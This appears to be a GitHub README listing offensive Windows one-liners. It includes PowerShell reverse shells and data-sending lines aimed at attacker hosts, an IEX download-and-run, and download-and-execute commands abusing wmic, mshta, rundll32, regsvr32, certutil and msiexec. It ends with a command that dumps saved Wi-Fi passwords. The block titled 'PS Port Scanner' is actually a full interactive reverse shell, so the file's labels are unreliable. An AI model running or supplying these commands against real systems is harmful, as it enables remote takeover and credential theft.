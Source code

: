 This is a repository for github One Liners for Windows. You can port scan, get reverse shells with so many methods like below.

Reverse Shell Command Execution through UDP
<pre><code>powershell -nop -c "$s=New-Object System.Net.Sockets.Socket([System.Net.Sockets.AddressFamily]::InterNetwork,[System.Net.Sockets.SocketType]::Dgram,[System.Net.Sockets.ProtocolType]::UDP);$s.Connect((New-Object System.Net.IPEndPoint([system.net.IPAddress]::Parse(\"<HOSTIP>\"),53)));$s.send(([System.Text.Encoding]::ASCII).GetBytes((whoami)));"</pre></code>

Reverse Shell Command Execution through tcp
<pre><code>powershell -c "whoami | % {$w=(New-Object System.IO.StreamWriter((New-Object System.Net.Sockets.TCPClient([System.Net.IPAddress]::Parse(\"<HOSTIP>\"),80)).GetStream()));$w.WriteLine($_);$w.Flush()}"</pre></code>

Download PS Script
<pre><code>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"</pre></code>

PS Port Scanner
<pre><code>$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()</pre></code>

WMIC Dropper
<pre><code>wmic os get /format:"https://webserver/payload.xsl"</pre></code>

payload.xsl :


MSHTA Download
<pre><code>mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta</pre></code>

RUNDLL Execute from SMB
<pre><code>rundll32.exe \\192.168.1.109\vabFG\test.dll,0</pre></code>

REGSRV Download and Execute
<pre><code>regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll</pre></code>

CERTUTIL Download and Execute
<pre><code>certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe</pre></code>

MSIEXEC Download and Execute
<pre><code>msiexec /q /i http://192.168.1.109/1.msi</pre></code>

Grab all wireless passwords with PS
<pre><code>(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize</pre></code>
